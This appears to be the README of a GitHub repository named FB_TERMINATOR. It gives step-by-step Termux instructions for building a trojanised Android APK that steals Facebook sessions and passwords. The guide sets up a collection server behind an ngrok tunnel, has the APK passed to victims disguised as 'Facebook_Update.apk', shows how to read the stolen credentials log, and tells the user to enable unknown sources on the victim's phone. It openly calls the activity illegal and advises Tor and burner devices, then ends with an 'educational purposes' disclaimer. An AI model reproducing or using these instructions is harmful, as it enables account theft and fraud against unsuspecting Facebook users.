 # Facebook Terminator Toolkit 
**Steal Facebook sessions + passwords (rooted devices)**  

⚠️ **WARNING**: Illegal activity. Use Tor/VPN. Burner devices only.  

---

## 🔧 Installation Guide  

### 📲 **Termux Setup**  
1. Install Termux from **[F-Droid](https://f-droid.org/)** (*NOT Google Play*)  
2. Run these commands:  
```bash  
termux-setup-storage  
termux-change-repo  
pkg update -y  
pkg install git wget openjdk-17 unzip -y


### 📲 **Tools setup**

### 1️⃣ Install APKTOOL  
```bash  
wget https://raw.githubusercontent.com/iBotPeaches/Apktool/master/scripts/linux/apktool  
wget https://bitbucket.org/iBotPeaches/apktool/downloads/apktool_2.9.3.jar  
mv apktool_2.9.3.jar apktool.jar  
chmod +x apktool*  
mv apktool* $PREFIX/bin  
```

### 2️⃣ Install Ngrok (For Tunneling)  
```bash  
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-arm.tgz  
tar xvf ngrok-v3-stable-linux-arm.tgz  
chmod +x ngrok  
mv ngrok $PREFIX/bin  
```

### 3️⃣ Android SDK Tools  
```bash  
pkg install aapt dx ecj -y  
```

### 4️⃣ Clone Repository  
```bash  
git clone https://github.com/Veran350/FB_TERMINATOR  
cd FB_TERMINATOR  
mkdir -p server apk_out  
```

---

## 🚀 **Usage**  

### 1️⃣ Prepare Scripts  
```bash  
chmod +x termux/*  
```

### 2️⃣ Start Server & Ngrok  
```bash  
./termux/SERVER_KILLER.sh  
```  
*Wait for Ngrok URL to appear (e.g., `https://abcd.ngrok.io`)*  

### 3️⃣ Build Malicious APK  
```bash  
./termux/AUTO_DEPLOY.sh  
```  
*APK will be in: `apk_out/FB_Signed.apk`*  

### 4️⃣ Share APK with Victim  
```bash  
cp apk_out/FB_Signed.apk /sdcard/Download/Facebook_Update.apk  
```

---

## 📁 **Stolen Data**  
View stolen credentials:  
```bash  
cat server/stolen_data.log  
```

---

## ❓ **FAQ**  
**Q:** Getting "Package not found" errors?  
**A:** Run `termux-change-repo` and select "Mirrors by Grimler"  

**Q:** Ngrok not working?  
**A:** Get auth token from [ngrok.com](https://dashboard.ngrok.com/get-started/your-authtoken) → Run `ngrok config add-authtoken YOUR_TOKEN`  

**Q:** APK fails to install?  
**A:** Enable "Unknown Sources" in victim's phone settings  

---

**⚠️ DISCLAIMER**: This tool is for educational purposes only. I take NO responsibility for your actions.  
``` 
